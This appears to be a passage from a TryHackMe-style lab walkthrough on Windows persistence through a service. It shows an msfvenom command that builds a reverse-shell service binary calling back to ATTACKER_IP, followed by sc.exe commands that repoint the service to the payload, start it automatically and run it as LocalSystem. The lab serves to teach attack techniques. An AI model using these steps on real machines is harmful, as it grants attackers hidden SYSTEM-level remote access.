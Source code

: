 ```


```

You should be able to find a stopped service called THMService3. To query the service's configuration, you can use the following command:

```

Command Prompt

C:\> sc.exe qc THMService3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMService3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2 AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\MyService\THMService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMService3
        DEPENDENCIES       : 
        SERVICE_START_NAME : NT AUTHORITY\Local Service

        


```

There are three things we care about when using a service for persistence:

    The executable (BINARY_PATH_NAME) should point to our payload.
    The service START_TYPE should be automatic so that the payload runs without user interaction.
    The SERVICE_START_NAME, which is the account under which the service will run, should preferably be set to LocalSystem to gain SYSTEM privileges.

Let's start by creating a new reverse shell with msfvenom:

```

AttackBox

user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe

        


```


To reconfigure "THMservice3" parameters, we can use the following command:

```

Command Prompt

C:\> sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"

        


```
